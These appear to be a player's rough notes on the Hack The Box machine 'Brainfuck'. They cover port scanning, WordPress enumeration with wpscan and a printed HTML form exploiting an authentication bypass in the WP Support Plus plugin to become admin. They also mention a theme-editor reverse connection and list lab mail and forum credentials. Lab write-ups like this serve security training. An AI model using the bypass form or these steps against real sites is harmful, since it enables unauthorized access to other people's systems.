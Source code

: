 
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
110/tcp open  pop3
143/tcp open  imap
443/tcp open  https


![](20230524132206.png)

gobuster dir --url https://10.129.228.97 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k 

ssl information is required as usially htb deals with port 80

![](20230524140511.png)

wpscan on wordpress enumeration

wpscan --url https://brainfuck.htb --disable-tls-checks

wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u


[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```
searchsploit wp support plus
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsiv | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsiv | php/webapps/40939.txt
WordPress Plugin WP Support Plus Responsiv | php/webapps/41006.txt
```

searchsploit -x 41006.txt

```
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

```

we become admin using the exploit

![](20230524145209.png)

in wordpress file reverse connect can be got using appearancesthemes and then cahnge template to whatever

![](20230524212621.png)

we  got password
orestis:kHGuERB29DNiNE
![](20230524212343.png)


websehll did not work so trying to configure a thunderbird client

able to configure

![](20230524214608.png)

```
Hi there, your credentials for our "secret" forum are below 😄

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
```

using this and logging in I get

![](20230524214904.png)

its using a one time pad

https://rumkin.com/tools/cipher/ for ciphers




### lesson learnt

1. check the  ecertificate if ssl is there
2. ciphers can beone time pad. https://rumkin.com/tools/cipher/ for cipher reated help